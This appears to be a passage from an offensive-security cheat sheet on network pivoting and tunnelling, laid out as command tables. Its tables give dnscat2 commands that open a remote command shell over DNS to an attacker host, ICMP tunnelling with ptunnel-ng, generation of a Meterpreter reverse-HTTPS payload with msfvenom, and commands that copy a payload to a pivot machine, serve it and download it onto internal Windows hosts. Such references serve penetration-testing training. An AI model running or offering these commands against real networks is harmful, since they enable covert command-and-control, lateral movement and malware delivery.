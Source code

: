 Use these when standard TCP/UDP traffic is blocked.

| Tool         | Protocol | Role   | Command                                                                      |
| ------------ | -------- | ------ | ---------------------------------------------------------------------------- |
| `dnscat2`    | DNS      | Server | `sudo ruby dnscat2.rb --dns "host=<ATTACKER_IP>,domain=<domain.tld>"`        |
|              |          | Client | `Start-Dnscat2 -DNSserver <ATTACKER_IP> -Domain <domain.tld> -Exec cmd`      |
| `ptunnel-ng` | ICMP     | Server | `sudo ./ptunnel-ng -r<PIVOT_IP> -R<PORT>`                                    |
|              |          | Client | `sudo ./ptunnel-ng -p<PIVOT_IP> -l<LOCAL_PORT> -r<PIVOT_IP> -R<REMOTE_PORT>` |

***

#### 6. Pivoting Workflow & Supporting Commands

Essential commands for transferring payloads and managing connections during a pivoting engagement.

| Task            | Command                                                                  | Description                                                                                                                 |
| --------------- | ------------------------------------------------------------------------ | --------------------------------------------------------------------------------------------------------------------------- |
| Verify Tunnel   | `netstat -antp \| grep <PORT>`                                           | On your attacker machine, verify that your local port forward or SOCKS proxy is listening.                                  |
| Scan via Tunnel | `nmap -v -sV -p1234 localhost`                                           | Scan the local port you forwarded to enumerate the service on the internal target.                                          |
| Payload Gen     | `msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<PIVOT_IP> ...` | When generating a payload for a host inside the network, `LHOST` must be an IP the target can reach (often the pivot's IP). |
| File Transfer   | `scp payload.exe user@<PIVOT_IP>:~`                                      | Use `scp` to transfer tools and payloads to the pivot machine.                                                              |
|                 | `python3 -m http.server 8123`                                            | Start a quick web server on the pivot machine to serve payloads to other internal hosts.                                    |
|                 | `Invoke-WebRequest -Uri "http://<PIVOT_IP>:8123/p.exe" -OutFile "p.exe"` | Use PowerShell on an internal Windows host to download a payload from the pivot.                                            |
